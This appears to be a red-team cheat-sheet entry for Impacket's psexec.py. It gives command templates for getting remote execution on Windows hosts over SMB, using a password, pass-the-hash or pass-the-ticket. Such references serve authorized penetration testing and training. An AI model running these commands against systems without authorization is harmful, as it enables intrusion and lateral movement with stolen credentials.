 # psexec (imp)

%  windows, impacket-exec, RemComSvc

## username
#plateform/linux #target/remote #port/445 #protocol/smb #cat/ATTACK/CONNECT  
create a new service (using \pipe\svcctl via SMB)

```
psexec.py '<domain'>'/'<user>':'<password>'@<ip>
```

## pth
#plateform/linux #target/remote #port/445 #protocol/smb #cat/ATTACK/CONNECT  
create a new service (using \pipe\svcctl via SMB)

```
psexec.py -hashes <hash> <user>@<ip>
```

## ptt
#plateform/linux #target/remote #port/445 #protocol/smb #cat/ATTACK/CONNECT  
create a new service (using \pipe\svcctl via SMB)

```
export KRB5CCNAME=<ccache_file>; psexec.py -dc-ip <dc_ip> -target-ip <ip>> -no-pass -k <domain>/<user>@<target_name>
```

